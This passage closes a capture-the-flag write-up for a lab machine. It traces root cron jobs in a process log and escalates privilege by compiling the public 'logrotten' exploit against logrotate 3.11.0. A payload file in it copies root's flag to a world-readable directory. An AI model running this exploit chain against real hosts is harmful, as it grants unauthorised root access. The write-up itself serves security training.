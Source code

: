     2020/02/27 13:51:21 CMD: UID=0    PID=19888  | /lib/systemd/systemd-udevd 
    2020/02/27 13:51:21 CMD: UID=0    PID=19887  | /lib/systemd/systemd-udevd 
    2020/02/27 13:51:21 CMD: UID=0    PID=19886  | /lib/systemd/systemd-udevd 
    2020/02/27 13:51:21 CMD: UID=0    PID=19892  | 
    2020/02/27 13:51:23 CMD: UID=0    PID=19894  | /usr/sbin/logrotate -f /root/log.cfg 
    2020/02/27 13:51:23 CMD: UID=0    PID=19893  | /bin/sh /root/log.sh 
    2020/02/27 13:51:23 CMD: UID=0    PID=19895  | sleep 5 
    2020/02/27 13:51:28 CMD: UID=0    PID=19898  | /usr/sbin/logrotate -f /root/log.cfg 
    2020/02/27 13:51:28 CMD: UID=0    PID=19897  | /bin/sh /root/log.sh 
    2020/02/27 13:51:28 CMD: UID=0    PID=19899  | sleep 5 
    2020/02/27 13:51:29 CMD: UID=1000 PID=19900  | /usr/sbin/apache2 -k start 
    2020/02/27 13:51:30 CMD: UID=1000 PID=19901  | /usr/sbin/apache2 -k start 

We see that the root user (`UID=0`) is periodically executing the following
commands:

    :::text
    /usr/sbin/logrotate -f /root/log.cfg
    /bin/sh /root/log.sh
    sleep 5

## logrotate

We look at the logrotate version.

    :::text
    reader@book:~$ logrotate --version
    logrotate 3.11.0

This version is [vulnerable to a privilege escalation](https://packetstormsecurity.com/files/154743/Logrotate-3.15.1-Privilege-Escalation.html).

We copy the C exploit using SSH, compile it, create a specific payload file and run the exploit on
the access.log file (in debug mode).

    :::text
    $ gcc -o logrotten logrotten.c
    $ cat payloadfile
    cp /root/root.txt /tmp/systemd-timesyncd/ ; chmod 777 /tmp/systemd-timesyncd/root.txt
    $ ./logrotten -p ./payloadfile /home/reader/backups/access.log -d

In another terminal we put data inside the access.log file.

    :::text
    reader@book:~$ python -c 'print "a"*10000'> backups/access.log

Then we wait a bit for the file to be created and we can display our `root.txt`.

    :::text
    $ cat root.txt 
    84da92adf998a1c7231297f70dd89714

# Wrapping up

This box was really interesting as the web vulnerably can be found in real
websites. The privilege escalation is quit simple at it just implies to exploit
a known vulnerability.

